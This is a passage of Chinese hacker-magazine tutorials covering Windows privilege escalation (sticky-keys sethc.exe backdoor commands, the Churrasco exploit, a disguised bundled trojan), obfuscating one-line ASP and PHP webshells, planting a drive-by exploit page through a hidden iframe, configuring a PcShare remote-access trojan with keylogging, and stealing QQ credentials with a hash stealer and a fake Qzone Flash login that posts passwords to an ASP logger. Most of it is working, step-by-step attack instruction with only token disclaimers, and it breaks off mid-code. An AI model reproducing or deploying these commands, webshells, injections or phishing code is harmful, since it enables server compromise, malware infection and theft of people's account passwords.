按下键盘上的 Shift 键 5 次，就会弹出来如图22所示的粘滞键程序，其对应的文件是 `C:\WINDOWS\system32` 目录下的 `sethc.exe`，而且是以 System 权限运行的。在远程桌面登录界面按下 5 下 Shift 键同样能调出服务器上的粘滞键程序，也就是运行了服务器上的 `C:\WINDOWS\system32\sethc.exe`。如果我们把服务器上的 `sethc.exe` 替换成 `cmd.exe`，那么按下 5 下 Shift 键就会出来 `cmd.exe`，而且也是以 System 权限运行的，然后我们就可以利用 `cmd.exe` 添加管理员用户后再登录远程桌面了。甚至我们可以把 `sethc.exe` 替换为 `explorer.exe`，按下 5 下 Shift 键就可以不用登录而直接进入桌面了。

要利用这种方法提权的前提是你的 webshell 对 `C:\WINDOWS\system32\sethc.exe` 有改名、删除的权限，在 `C:\WINDOWS\system32` 目录和 `c:\windows\system32\dllcache\` 目录下有写权限，并且服务器开启了远程桌面服务并且你可以连接上。不能直接替换 `C:\WINDOWS\system32\sethc.exe`，因为在 `c:\windows\system32\dllcache\` 下还有 `sethc.exe` 的备份，因此要想替换 `C:\WINDOWS\system32\sethc.exe`，首先就要替换 `c:\windows\system32\dllcache\sethc.exe`。我们在 webshell 的执行 cmd 命令中执行 `ren c:\windows\system32\dllcache\sethc.exe c:\windows\system32\dllcache\sethc1.exe`，把 `c:\windows\system32\dllcache\sethc.exe` 重命名为 `c:\windows\system32\dllcache\sethc1.exe`，方便以后恢复使用，然后依次执行下面两条命令（记住是依次，顺序不要搞错了）：

```bash
copy c:\windows\system32\cmd.exe c:\windows\system32\dllcache\sethc.exe
copy c:\windows\system32\cmd.exe c:\windows\system32\sethc.exe /y
```

把“net user”更换成别的命令就可以执行了，而且是以 System 权限执行的哦。另外，导出的 udf.dll 还包含几个别的函数，创建函数的格式为：“Create function 函数名(区分大小写) returns string soname "dll名"(注意路径);”。使用函数的格式为：“Select 函数名(参数列表);”，获取参数信息可以使用：“Select 函数名("Help");”。

后面的一条命令加 `/y` 参数是为了不经询问而直接覆盖。执行完上面的命令后，我们的粘滞键后门就做好了。下面来看看效果吧，在远程桌面登录界面按下 5 下 Shift 键，出来了 cmd 命令行窗口，并且权限是 System，如图23，建个管理员用户并直接登录，如图24。

- udf.dll 包含的其他函数及功能简介如下：
- MyFile 下载者，到网上下载指定文件并保存到指定目录
- ProcessView 枚举系统进程
- KillProcess 终止指定进程
- regread 读注册表
- regwrite 写注册表
- shut 关机、注销、重启
- about 帮助信息

而执行：

```bash
copy c:\windows\explorer.exe c:\windows\system32\dllcache\sethc.exe /y
copy c:\windows\explorer.exe c:\windows\system32\sethc.exe /y
```

两条命令后，再在远程桌面登录界面按下 5 下 Shift 键，结果如图24所示，在“我的电脑”上点右键选择“管理”就可以对电脑进行管理了，包括创建用户等。

### 五、替换文件提权

服务器上运行着很多软件，而且很多软件都是随系统一起启动的。如果这些文件所在目录的权限设置不是很好，我们有权限替换文件，那么就可以用自己的文件替换掉原来的文件，在下次系统启动时就运行了你的文件，从而完成了提权。其实上面介绍的粘滞键后门提权也是替换文件提权的一种，只不过比较特殊而已。正在运行的文件是不能直接删除的，不过可以重命名。找到可以替换的文件，对正在运行的原文件改为别的文件名，把你用来提权的文件（比如木马）传到这个目录，文件名就改成正在运行的那个文件原来的名字，接下来等着系统重启后就会运行你的文件了。

### 六、溢出提权

服务器上运行的操作系统以及安装的软件都是可能存在漏洞的，如果出现了本地提权权限的溢出漏洞那我们就可以用来提权了，但要是打过了相应的漏洞补丁那就不能利用了。下面我就以前段时间比较流行的 Windows 2003 Token Kidnapping Local Exploit 为例来为大家介绍，直接来看漏洞利用程序的使用。通过漏洞名可以看出这个漏洞只针对 Windows 2003 系统有效，漏洞利用程序名为 Churrasco.exe，很多人也叫它巴西烤肉。我把 aspxspy2.0 放到虚拟机的支持 aspx 环境的 Windows 2003 系统中，直接执行命令 `net user 123 123 /add` 没有显示，显然权限不够，如图26。

把 Churrasco.exe 上传到网站根目录下，执行命令 `c:\www\Churrasco.exe "net user 123 123 /add"`，其中 `c:\www\` 为网站根目录，显示如图27所示，看到“Done, command should have ran as SYSTEM!”的提示，命令好像已命令执行了，我们执行“`net user`”看一下，发现用户123已经添加成功了，如图28。

## 七、其它提权方法

如果我们找到了网站后台的密码或数据库的密码，说不定也是系统管理员用户的密码，也可能是远程管理软件比如Radmin的密码；多尝试一下吧。多翻下服务器上各个盘里的文件，有的管理员为了方便会把密码明文保存在一个文件中。你也可以在服务器比较显眼的地方放个嵌套的文件夹，比如建立 `C:\管理员亲启\管理员亲启\管理员亲启\管理员亲启\管理员亲启\` 这样一个文件夹，在里面放一个捆绑的木马，名字为“管理员亲启.exe”，把文件的图标修改为文件夹的图标，说不定管理员就会顺手点击了你的木马。可能很多叉子会说点到最后管理员会发现上当的，就是要他发现。我们的木马是经过精心处理的，是两个木马捆绑在一起的，一个肯定被查杀，但另一个是做过免杀处理的，管理员发现上当后肯定会查杀木马，没做免杀处理的被查杀了，当管理员得意时，其实我们免杀的木马已经在他的系统中运行了。

其实，提权的方法还有很多，我为大家介绍的只是其中比较常用的一些而已。由于个人水平所限，Linux系统下的提权方法就不给大家介绍了。提权中思路灵活很重要，不要拘泥于别人的方法，只要能达到提权的目的，什么方法都可以使用。

希望大家在掌握本文所介绍的提权方法的基础上能够灵活运用，人人都能成为提权达人，祝大家提权得到的服务器更多、更好。

（文章中涉及到的 aspxspy2.0、VNC4PASS、PcAnywhere PassWord Crack、Radmin Hash登录版、SQLTools、MySql_Udf.dll 提权专用网马 2009.6.16重新编译版、Churrasco.exe，已经收录在了光盘中）▩


txcbg

记得刚开始看“黑客X档案”的时候我还在学校里读书，那时每期杂志我都看得非常仔细，几乎都是反反复复地看好几天。当时自己也没有电脑，看到好用、有用的工具以及它在哪篇文章中介绍到的，就认认真真地记录到一个笔记本上，然后周末的时候就排一个多小时的队去学校机房上网，并把光盘里的工具保存到我的邮箱里并实践一下书中所介绍的东西。现在也有了属于自己的电脑，也能想什么时候上网就什么时候上网了，反而却没有了当初收集工具时的那种热情了。那时因为条件限制，几乎没怎么实践书上所介绍的内容，现在有了条件，却很多时候是玩起游戏、聊起天来一下子就是好几个小时，看书的时间反而少了。前段时间的一个晚上又是下雨又是打雷，我怕弄坏了电脑就没敢开机，翻出书仔细地看了一下，真是感慨看了几个小时的书却远比我在网上逛几天学到的东西多呀。正所谓没有某种东西的时候非常想拥有，有了后却不知道去珍惜、去充分利用它。

今年的冬天似乎来得比较早，离立冬还有10天，北京就下了今年的第一场雪。怕冷的txcbg早就穿上了厚厚的棉袄，由于电脑所在的屋子里没有任何取暖的东西，整个寒冷的冬天就只能靠多穿衣服来度过在电脑前的时光了。可时间一长就冻得手脚疼，所以我最近是能不开电脑就不开了，围在火炉边和家人一起看电视或看点书，觉得也挺惬意的。

怕冷归怕冷，可菜鸟学堂的课是不能耽误的。这不，一大早txcbg就顶着严寒冒着风雪来给叉子们上课了。“各位同学好，欢迎大家给我捧场，不畏严寒坚持来上12月的课。上节课我介绍了在得到webshell后的一些提权方法，不知大家都掌握得怎么样了，都弄到自己满意的肉鸡了吧。提到webshell，除了基本的使用方法外，还有一些内容我们也有必要了解一下，比如webshell的加密、webshell的深入利用等。

## 一、webshell的加密

对于自己修改过的webshell，如果不想把代码暴露给别人，不想让别人轻易得到webshell的登录密码，那么就对webshell进行加密吧。通过加密，不但在一定程度上可以保护webshell的代码不被泄露，还能起到一定的免杀作用呢！webshell的加密根据是否使用工具可以分为工具加密和自写加密函数加密两种，而根据webshell所采用动态语言的不同，又分为asp webshell的加密和php webshell的加密等。由于自写加密函数加密需要对对应的脚本语言有比较深入的了解，考虑到大多数叉子们可能会有些困难，所以就不给大家介绍了。感兴趣的读者可以到网上查找一下相关资料，这里我只介绍asp webshell和php webshell的工具加密方法（txcbg心里暗想：其实是俺自己不会，没法子给大家介绍啊。=）。

### 1、asp webshell的工具加密

asp webshell的加密用得比较多的就是微软的脚本加密工具 Script Encoder 了。微软官方对它的介绍是：Script Encoder是一个简单的命令行工具，脚本设计者可使用此工具对他们的最终脚本进行编码，从而使Web主机和Web客户端无法查看或更改其源代码。这种编码只能防止对你代码的一般性浏览，而无法防止专业黑客查看你的代码和实现方式。Script Encoder需要安装后才能使用，安装完成后在“开始”－“程序”菜单中我们只会看到一个说明文档，而真正有用的程序则是 `C:\Program Files\Windows Script Encoder\` 下的 `screnc.exe`（默认安装并且系统盘是C盘的情况下），如图1。


经过我的测试，安装后的 `screnc.exe` 可以移动到别的目录或没有安装Script Encoder的电脑上使用，功能完全正常。下面我们就来看看如何利用Script Encoder对asp webshell进行加密。为了使用方便，我把 `screnc.exe` 复制到了c盘根目录下。按 Win+R 打开“运行”栏，输入 `cmd` 打开命令提示符，然后输入 `cd\` 切换到c盘根目录下，输入 `screnc.exe` 回车后就看到了Script Encoder的使用帮助信息了。

> “好多参数啊，还都是英文！”一叉子害怕地说道。

“大家不要被这些参数吓到了，它的使用非常简单的，那就是……其实我们根本就用不到它的参数，在后面直接跟上要加密的文件名和加密后的文件名就行了。首先我们来看一个常用的一句话木马，没加密前的代码为 `<%eval request("x")%>`，而它的文件名为1.asp。为了免去输入命令时带路径，我把1.asp也复制到了c盘根目录下，直接输入命令 `screnc.exe 1.asp 2.asp`，如图2，命令执行后就会在c盘根目录下生成2.asp，这个2.asp就是1.asp经过Script Encoder加密后的产物。我们使用记事本打开2.asp，发现代码已经变为了如图3所示的样子。除了 `<%@ LANGUAGE = VBScript.Encode %>` 这句话外，其它的代码感觉就是乱码，你还能看出一句话木马原来的密码吗？如果杀毒软件把一句话木马的病毒特征码定位为 `eval`（当然这只是一个假设），由于加密后没有了 `eval`，则杀毒软件就不会认为加密后的一句话木马是病毒了，这就是有些webshell加密后可以起到免杀效果的原因。


看到这儿，可能又有叉子心里要嘀咕了：一句话木马加密后的代码变了样，那还能正常运行吗？我们把加密后的2.asp放到支持asp的web环境中，比如访问地址为 `http://127.0.0.1/2.asp`，使用lake2的eval最小马发送端进行连接，填上连接密码x，功能一切正常，如图4。

下面我们再来加密一个大马，就以海阳顶端网ASP木马@2006为例吧。没有加密前的代码如图5所示，我们使用Script Encoder来加密一下，加密后的文件名为06.asp，使用记事本打开后发现代码变成了如图6所示的样子，下面一大片都是乱码。看看还能正常运行吗？放到网站目录下然后访问，功能一切正常，如图7。


Script Encoder很好用，但不方便的就是需要在命令行下使用。如果大家想使用图形界面下的工具那也是有的，比如webshell加密器，使用它加密后的结果和使用Script Encoder加密的结果完全一样，估计可能是调用了 `screnc.exe`。利用webshell加密器来加密asp webshell更简单，在“源文件”中选择要加密的文件，在“保存到”中选择加密后文件所保存的路径和文件名，然后点“加密”按钮就行了，如图8。


另外，webshell加密器还可以解密经过Script Encoder加密的文件。同样在“加密文件路径”中选择要解密的文件，在“解密文件路径”中选择解密后文件所保存的路径和文件名，点“解密”按钮就可以进行解密了。如图9所示就是我解密刚才加密的2.asp的结果，发现多出了代码 `<%@ LANGUAGE = VBScript.Encode %>`。虽然不影响正常的运行，但是有了这句代码后却无法使用Script Encoder再对它进行加密了（加密前和加密后一样），因此建议去掉。

### 2、php webshell的加密

php webshell的加密工具，我认为比较好用的就是PHP木马加密GUI版了，工具的原理就是base64编码转换。工具运行后的界面如图10所示，使用的方法就是把需要加密的代码去掉代码头的“`<?php`”和结尾的“`?>`”后复制到“原代码”的输入框中，点击“加密”按钮后，加密的结果就会出现在“结果区”中了。比如常用的php一句话木马的代码 `<?php eval($_POST[x]);?>`，加密后的结果就变成了 `<?php eval(base64_decode('ZXZhbCgkX1BPU1RbeF0pOw=='));?>`，如图11。当然加密后的文件在功能上也是完全正常的，如图12。


用来加密一个php大马，比如c99shell也是成功的，如图13。在使用PHP木马加密GUI版加密的时候需要注意一点：如果要加密的代码以空格开头，就得去掉前面的空格才行，否则加密后的代码可能不会正常运行。有些php程序使用zend进行了加密，不过已经有人开发出了专用的解密工具deZender，比如七剑deZender绿色版1.2，如图14。

关于webshell的加密就为大家简单地介绍这些，下面我们再来看webshell的其它应用。在得到一个webshell后，除了可以进行提权外，还能做什么呢？

“还能挂马。”台下的小咖啡说道。


图11


图12


图13


图14

> “是的，可以挂马，还可以刷流量。首先我声明一点，在别人的网站上挂马是违法行为，也是不道德的行为。下面我将本着学习电脑安全技术的初衷来简单介绍一下挂马的方法，大家在知道别人是怎样挂马的后，也就可以更好地防范挂马了，做到知己知彼，百战不殆嘛。”

### 二、挂马及防范方法

挂马就是把制作好的网马（很可能是经过了免杀和加密处理的）通过各种技术手段挂到网上，等待别的用户访问。那什么是网马呢？这里的网马就是网页木马的简称，不同于控制网站用的webshell，这里所说的网页木马实际上是一个HTML网页，但与其它网页不同的是，该网页是经过精心制作的，用户一旦访问了该网页，如果电脑没有打上相应补丁的话，可能就会中木马。网马一般都是利用各种漏洞（大多是IE的相关漏洞）来下载并执行挂马者指定的文件（一般就是木马，当然也可能只是一个测试程序），可以说这成了一个趋势。几年前的网马大多是利用IE浏览器的漏洞或Windows系统本身的漏洞，而最近一两年很多网马都是利用应用程序的漏洞，比如Adobe Reader等。

要挂马首先就得要有一个可用的网马才行。为了给大家找到一个比较新的网马，我厚着脸皮向路人甲老大哥要网马，结果路老大给了我一个很新的利用Adobe Flash Player漏洞的网马。在此谨代表广大的叉子向路甲老大致以崇高的感谢！接下来我们就制作一个网马，而网马所运行的程序就先用一个简单的测试程序来代替，以便于大家能直观地看到网马是否管用。一会儿我们再把网马运行后执行的程序替换成真正的木马服务端程序就行了。

解压路老大哥给的网马，一共解压出了3个文件。一个.doc文件是说明文件，告诉我们怎样使用这个网马；还有两个exe文件是生成网马用的。这个网马生成的过程有点儿特别，大多数网马只需要填写上网马运行后要下载并运行的程序的URL地址就可以生成了，但这个网马却需要先使用Pack.exe对要下载并运行的程序进行编码。打开Pack.exe，点上面第一个按钮选择要编码的文件，也就是网马运行后要执行的文件（注意不包括下载）。这里我选择测试用的程序是testvb.exe；点第二个按钮选择文件编码后的保存路径和文件名，我选择保存到了桌面上，文件名为test.exe，如图15。


图15

点击“确定”按钮生成了编码后的文件test.exe，把test.exe放到虚拟机中搭建的网站下，下载地址为 `http://192.168.44.176/test.exe`。接着打开Flash.exe，在“The URL address of exe”后面输入编码后的test.exe的下载地址“`http://192.168.44.176/test.exe`”，点“ok”按钮后就可以生成网马了，如图16。


生成的网马共包括4个文件，分别是index.html、ff.html、ie.html和xp.swf。把生成的这4个文件一起放到网站的同一目录下，这里我都放在了网站根目录下。访问生成的index.html文件就会触发网马，index.html文件也可以改成别的文件名，不影响使用。生成的网马到底能不能使用呢？我们先在本机测试一下。具体测试环境为Windows2003 SP2+IE7.0，因为这个网马利用的漏洞是Adobe Flash Player，而且Adobe Flash Player的版本要高于9.0，所以我在网上找到了存在这个漏洞的 Macromedia Flash Player 9.0.0.296 Beta for IE，下载回来并安装完成后使用IE访问 `http://192.168.44.176/index.html`，成功地看到了测试程序弹出的窗口，如图17。后来我又在WindowsXP SP3+IE6.0环境下也测试通过了。


接下来，我们再把测试程序替换成真正的木马服务端，在虚拟机里模拟一下真实的挂马。首先来生成一个木马的服务端，也就是网马最终要运行的那个文件。考虑到很多叉子可能还不会使用传统木马（也可以叫远程控制软件），这里我再简单地介绍一下使用方法。就以一款比较老的PcShare远程控制程序（20070726免费版本）为例来进行介绍吧。由于木马比较老，生成的服务端会被杀毒软件查杀。由于我们只是简单地演示木马的使用，不考虑被查杀的问题，因此在虚拟机中就没有安装杀毒软件。

目前使用的木马几乎都是反弹木马，木马服务端在运行后会主动连接到木马控制端。那么服务端又是如何找到控制端的呢？在配置服务端程序的时候已经指定了服务端连接到控制端的方法，也就是木马的上线方式。反弹木马通常有三种上线方式：

- 1、IP通知网页：形式为 `http://www.xxxx.com/ip.txt` 这样。采用这种方式需要有一个FTP空间，服务端在运行后会自动读取ip.txt中的内容，然后反向来连接你，从而达到了自动上线的目的。
- 2、DNS解析域名：服务端程序通过DNS的解析，从而找到客户端的地址，然后反向来进行连接。
- 3、固定IP：如果你的木马控制端所在的电脑有固定的外网IP地址，那么上线地址直接填写你的固定IP地址就行了。比如你的固定外网IP地址是123.123.123.123，那么上线地址就填写123.123.123.123。

总的来说，木马服务端通过各种方式读取控制端的IP地址，然后反向连接到我们的控制端，也就是主动连接我们。由于并不是每个人的电脑都有固定的外网IP地址，再加上现在免费FTP空间也不好找，因此使用最多的还是动态域名上线（DNS解析域名的一种方式）。下面我将只介绍采用动态域名方式如何配置木马的服务端。比较好用的动态域名有希网动态域名和花生壳，我比较习惯使用希网动态域名，因此就用它来进行演示了，其实花生壳也很好用的。希网动态域名的官网是 `http://www.3322.org`，点“新用户注册”来免费注册一个用户，用户名和电话随便填写，EMAIL一定要写你真实的邮箱地址，因为注册后就会把登录的密码发送到你注册的邮箱中，如图18。


注册完成后就到你注册时填写的邮箱中去收取登录密码，然后到 `http://www.3322.org` 进行登录，登录后可以修改密码。点击“域名管理”就来到了如图19所示的页面，点击“动态域名”下的“新建”按钮来新建一个动态域名。“IP地址”自动给出了你当前的外网IP地址，在“主机名”后面输入你想建立的动态域名，比如我填写的是heikex，后缀选择3322.org或其它，点击“确定”按钮，如果没有被别人注册的话就会建立 heikex.3322.org 这个动态域名了，如图20。


我的运气不错，这个域名还没有被别人注册，建立 heikex.3322.org 域名成功。点击新建立的 heikex.3322.org 就来到了如图21所示的地方，如果我想修改 heikex.3322.org 对应的IP地址，可以在这里修改。heikex.3322.org 就是我们配置木马服务端时的上线地址。

来配置一个木马服务端，打开PcShare远程控制程序（20070726免费版本）的控制端，提示了“控制端口被占用，## 菜鸟学堂

“初始化失败，请关闭IIS服务！”，这是因为它的默认上线端口为80，而我的IIS提前占用了80端口。我们修改一下上线端口就行了，点击“参数设置”把自动上线连接端口修改为一个没有被占用的端口，这里我使用的是88端口，关闭控制端程序后重新再打开就开始监听88端口了，如图22。


图20

点击“生成客户”按钮就打开了如图23所示的“生成被控制端执行程序”（也就是服务端）的窗口，“控制端等待被控制端连接的地址和端口”就填写我们刚才申请的动态域名heikex.3322.org，端口保持默认的88不变。下面的“驱动隐藏”“运行后删除”和“键盘监控”三个选项可以根据自己的需要进行选择，这里我都选上了。最后点击“生成”按钮来生成一个服务端程序，并保存为mm.exe。

服务端生成了，我们先在本机上测试一下看能不能上线。在测试前先把本机的IP地址更新到动态域名，来到图21所示的更新IP的地方，把heikex.3322.org对应的IP地址更新为127.0.0.1，然后双击运行刚才生成的mm.exe，很快就看到木马上线了，如图24。


图24


图21


图25


图22


图26


图23

选中上线的主机，点击软件上面的控制按钮就可以对上线主机进行各种控制了。点击“文件管理”可以对远程电脑上的文件进行上传、下载、删除、重命名等操作；“屏幕监控”可以监视对方的桌面；“远程终端”提供了一个执行cmd命令的窗口，可以在命令行下执行各种命令和运行程序，如图25。

“键盘监控”可以记录远程电脑的键盘操作；“进程管理”可以显示远程主机上的进程，并可以结束进程；“服务管理”可以查看远程主机上的服务并可以启动、停止甚至删除服务，还可以通过属性来设置服务的启动类型为自动、手动或已禁用，如图26。如果远程主机安装了摄像头的话，还可以通过“视频监控”来查看正在操作远程主机的人；“下载管理”可以对正在下载的任务进行暂停、删除等操作。在上线主机上右键还会有一些别的操作选项，比如卸载被控制端程序、更新被控制端程序等。

关于木马的使用方法就简单地介绍到这儿，我们接着讲挂马。生成一个木马的服务端程序，上线动态域名为heikex.3322.org，生成的木马还是mm.exe。使用flash网马的Pack.exe对mm.exe进行编码，编码后的文件名为mml.exe，把mml.exe上传到网站目录下，下载地址为http://192.168.44.176/mml.exe。然后打开Flash.exe，在“The URL address of exe”后面填写http://192.168.44.176/mml.exe，点“OK”按钮生成网马，如图27。


把生成的4个网马文件都上传到网站根目录下，网马触发文件为http://192.168.44.176/index.html，而我们的webshell地址为http://192.168.44.176/aspx.aspx。假设网站根目录下的1.html的访问量很大，我们就在这个文件里挂马，使用webshell编辑1.html，在里面加入如下代码：`<iframe src=http://192.168.44.176/index.html width="0" height="0" frameborder="0"></iframe>`，如图28。也就是插入一个宽和高都为0的框架，src后面就是网马的地址。


下面来测试网马，测试的电脑还是IP为192.168.44.143的一台Windows XP系统，具体的测试环境为Windows XP SP3 + IE6.0。在测试电脑上安装存在漏洞的Macromedia Flash Player 9.0.0.296 Beta for IE，然后使用IE访问http://192.168.44.176/1.html，好像没什么异常，但来到PcShare的控制端看看，就会发现木马已经上线了，如图29。


如果你觉得挂马代码中的网马地址太扎眼了，还可以对它进行一下URL编码。比如把192.168.44.176用小葵的转换器转换成URL编码就是%31%39%32%2E%31%36%38%2E%34%34%2E%31%37%36，如图30，因此挂马代码也就变成了：

`<iframe src=http://%31%39%32%2E%31%36%38%2E%34%34%2E%31%37%36/index.html width="0" height="0" frameborder="0"></iframe>`

隐藏性也相对提高了。

上面完整地给大家模拟了一个挂马的过程。在知道如何挂马后，我再介绍一点防范挂马的方法。由于网马都是利用系统或应用软件的漏洞，因此及时给系统打上补丁是防范挂马的最主要方法。另外还要多关注一些安全站点的软件漏洞公告，发现你电脑上安装的软件出现漏洞后，要及时打上官方补丁或采取其他措施。还有，系统不要安装太多软件，够用就行了，越多的软件也就意味着越多的危险。最后，不要访问那些乱七八糟的网站，那种网站很可能已经被挂马了。

### 三、刷流量

如果你有自己的Blog或网站，谁都希望访问的人能多一些。手中正好有流量不错的网站的webshell，那么就可以通过刷流量来增加你Blog或网站的访问量了。我提供一个简单的刷流量方法，假如你的Blog或网站的首页是http://www.xxx.com/index.asp，就把前面提到的挂马代码换成`<iframe src=http://www.xxx.com/index.asp width="0" height="0" frameborder="0"></iframe>`，也就是把你网站的首页地址替换网马地址，这样就可以刷流量了。有人在访问被你插入代码的网页的同时也访问了你的网站，流量自然也就有了。

本节课主要介绍了webshell的加密和利用webshell挂马及刷流量。再次强调一点，我们不要在别人的网站上挂马，如果要测试请在虚拟机里测试，另外也不要轻易刷流量（当然，使用你自己的站帮朋友刷流量还是可以的，呵呵）。好了，今天的课就上到这里，大家再见！

> （文章中涉及到的Script Encoder、PHP木马加密GUI版、七剑deZender绿色版1.2、Adobe Flash Player网马、PcShare远程控制，已经收录在光盘中）


### 不用键盘记录也盗QQ

破坏病毒[RootHack.cn]

在以前的杂志中曾介绍过提取QQ的HASH密码的工具，最近我在网上也发现了一个工具，和平时使用的QQ盗号木马差不多，不过不需要键盘记录，只要目标QQ在线就行。先来配置我们的盗号木马，双击运行QQ终结者.exe，程序会要求我们输入ImKey……然后点击下方的“Make-Out”按钮，在第二个空白栏中就会给出ImKey码了，把它填到QQ终结者的ImKey栏中，点击“Login”按钮后就可以成功运行了，如图1。


QQ终结者只支持ASP收信方式，因此我们需要有个FTP空间（获取FTP空间的方法有很多，比如购买虚拟主机、使用免费空间、利用WEBSHELL等）。在QQ终结者中填写上收信域名，比如http://www.roothack.cn/，记住后面要有“/”，否则会出错，如图2。然后点击“MakeOut”按钮，就会在QQ终结者所在的目录下生成CommandQQ.asp、Rundll32.exe，还有一个HASH版QQ登录器.exe，如图3。


使用记事本打开CommandQQ.asp，将代码中的“CommandQQ.txt”更改成复杂点的名字，比如hackerxfiles.txt，否则有些人通过百度或Google搜索到默认的CommandQQ.txt，就会白捡了我们的“劳动成果”。因为这个文件可是用来记录QQ号及相应HASH密码的，如图4。修改好后把CommandQQ.asp上传到FTP空间中，接着我们在本地运行那个Rundll32.exe，过了30秒钟后它就会自动删除自己。

```asp
<%
dim msg
dim IP
dim strNow
IP = "IP:" & request.servervariables("REMOTE_HOST")
strNow = " Time:" & date & " " & time
msg = Request.QueryString("msg")
set fs=server.CreateObject("Scripting.FileSystemObject")
set file=fs.OpenTextFile(server.MapPath("CommandQQ.txt"),8,True)
file.writeline msg & IP & strNow
file.close
set file=nothing
set fs=nothing
%>
```

现在打开http://www.roothack.cn/hackerxfiles.txt，可以看到QQ密码的HASH值已经被截取下来了。然后我们运行HASH版QQ登录器.exe，把刚才得到的ImKey码填到“注册码”一栏中，成功运行程序后，再把获取到的QQ和密码HASH值填到里面，点击“登录”后便可以登录到对方QQ了；如果想获得明文密码的话，还可以把密码HASH值填到下面的“暗文”栏中，点击“还原明文”来进行还原，如图6。


最后，我们把生成的Rundll32.exe发给QQ好友，或是用来挂马，或是和常用工具进行捆绑再发布到网上。只要想办法让别人运行了这个程序，我们的木马就能成功获取到密码HASH值。

（本文所涉及到的Make-Out.exe、QQ终结者、HASH版QQ登录器已收录到光盘中）

### 在QQ空间用Flash“钓鱼”获取QQ密码

gto250


现在的杀毒软件越来越牛，个人的安全意识也越来越高，大街上随便拉个人也知道不要随便运行别人发给你的程序，要打好系统安全补丁，安装好杀毒软件等。盗号木马可以说是越来越没有立足之地了，而利用系统漏洞、使用网页木马之类的有效时间也是越来越短。我们小菜又没有足够的能力去找寻0day，因此最适合我们的就只有“社工”和“钓鱼”了。

小菜我拙于口舌，想象能力匮乏，运用不了“社工”，只好退而求其次，好好钻研一下“钓鱼”技术，学学姜太公的愿者上钩。先选个“钓鱼”的地方，一个好的地点才是成功的关键。QQ空间还不错，可这儿早就有人踩过点了。小菜们还记得QQ日志加密的那个flash吗？输入密码后才可以查看日志。如果我们把flash制作成钓鱼页面的话，会不会有人上钩呢？


来整理一下思路。如果在没有登录的情况下，我们去访问一个只有QQ好友才可见的QQ空间，就会出现以下页面，如图1。我们的钓鱼页面是放在加密日志中的，我们可以修改一下图片，如图2。大家看到了没有，我把“日志主人设置了QQ好友可见”改为了“日志主人设置了QQ密友可见”，把黄颜色图片中的字改为了“Qzone加密日志”。


如果你访问一篇QQ日志的时候，出现这个界面，习惯性地总会填上你的QQ号和密码，去尝试自己是否为密友吧。制作好了界面图片，接下来要做的就是完成整个flash，先来看看完成后的样子，如图3、图4和图5所示。


来到了这个界面，我们要思考的问题有：

- 为什么要有验证码？
- 怎么提示错误？
- 怎么样才能在flash中读取输入的QQ号和密码？
- 怎么把QQ号和密码提交出去？

QQ网站上所有需要填写用户名和密码的地方都需要验证码，如果没有的话，别人肯定会怀疑。有了验证码就得有判断，不然别人填写错误，点击登录了才看到错误却发现已经登录进去了，那对方就会发现有问题。验证码和错误提示使用的都是flash中的动态文本，QQ号码那些输入框使用的是输入文本。提交密码使用的是LoadVars中的sendAndLoad。


现在我们来制作这个flash，很简单，只需要4个图层和2个帧。第一帧就是这个输入界面，我们已经制作好了图片；第二帧为一个空白透明界面即可。具体实现可以到网上查一下QQ日志加密flash的做法或者看下flash制作即可。在这里我主要介绍一下代码部分。

先来看看图层部分，如图6，使用了4个图层，其中按钮、输入框和背景很好理解，就是每个图层里面加入了这些元素。行为图层是用来做什么的呢？如图7。


这是右键菜单，当别人点击右键后，就会出现“Qzone日志加密系统”这样的右键菜单，很迷惑人吧，具体代码如下：

```actionscript
stop(); //停在当前帧
name=random(9)+""+random(5)+""+random(9)+""+random(5);
//重新设置验证码
error=""; //清空错误项
var empiremue = new ContextMenu();
//删除原始菜单项
empiremue.hideBuiltInItems();
//自定义菜单项目
empiremue.customItems.push(new ContextMenuItem("Qzone日志加密系统", home));
function home() {
}
_root.menu = empiremue;
```

```actionscript
_root.gotoAndStop(1); //对以上的判断中有问题的进行错误显示
_root.error="错误：用户密码错误";
_root.name=random(9)+""+random(5)+""+random(9)+""+random(5); //每次错误显示时都要重新修改验证码
}
else{
_root.gotoAndStop(1);
_root.error="错误：用户密码错误";
_root.name=random(9)+""+random(5)+""+random(9)+""+random(5);
}
}
else{
_root.gotoAndStop(1);
_root.error="错误：验证码错误";
_root.name=random(9)+""+random(5)+""+random(9)+""+random(5);
}
}
else{
_root.gotoAndStop(1);
_root.error="错误：还有未填写项";
_root.name=random(9)+""+random(5)+""+random(9)+""+random(5);
}
}
else{
_root.gotoAndStop(1);
_root.error="错误：还有未填写项";
_root.name=random(9)+""+random(5)+""+random(9)+""+random(5);
}
}
}
```

再来看看下面的2个帧：图8中的实线框就是flash中的输入框，见图9的属性部分。这个是QQ号的输入框属性，为输入文本，变量为num。密码输入框和验证码输入框的属性部分就是变量不同，密码的为pas，验证码的为yzm。设置变量是为了能取得输入内容。按钮是用flash自带的button组件。虚线框一个是验证码显示，另一个是错误显示，它们的属性为动态文本，验证码显示的变量为name，错误显示的变量为error。


图8


图9

设置好了属性，我们就来编写脚本，在登录按钮上加入动作，代码如下：

```actionscript
on (release) {
var my_str:String = _root.num; //取得QQ号码输入框的内容
var my_pas:String = _root.pas; //取得QQ密码输入框的内容
if (_root.num != null) { //判断号码为空时
if (_root.pas != null) { //判断密码为空时
if (_root.yzm == _root.name ) { //判断输入框中的验证码和显示的验证码是否一样
if (my_str.length>6) {
if (my_pas.length>6) { //判断号码是不是大于6位，密码是不是大于6位
System.useCodepage = true;
var loginData = new LoadVars();
loginData.num=_root.num;
loginData.pas=_root.pas;
loginData.sendAndLoad("http://www.***.com/v.asp", loginData, "post"); //进行post提交
_root.gotoAndStop(2); //转至第二帧，显示日志
}else{
```

以上代码就是实现取得QQ号码、密码并进行提交，然后转至flash透明帧显示QQ日志。

```actionscript
System.useCodepage = true;
var loginData = new LoadVars();
loginData.num=_root.num;
loginData.pas=_root.pas;
loginData.sendAndLoad("http://www.***.com/v.asp", loginData, "post");
```

这段代码是提交的关键。提交的时候需要有一个接收的asp文件和一个空间，这个和跨站盗cookie的原理、代码都一样。在loginData.num和loginData.pas中“.”后面的num和pas要和asp文件中的request相对应，“http://www.***.com/v.asp”就是你的接收网页。asp中的代码如下：

```asp
<%
dim fso,file,str,time
num=request("num")
pass=request("pas")
time=CStr(now())
if num<>"" and pass<>"" then
Const ForReading = 1, ForWriting = 2, ForAppending = 8
Set fso = Server.CreateObject("Scripting.FileSystemObject")
path = server.mappath("v.txt")
set file=fso.opentextfile(path, ForAppending, TRUE)
file.write(num+"******"+pass+"******"+time)
file.write vbCrLf
file.close
set file = nothing
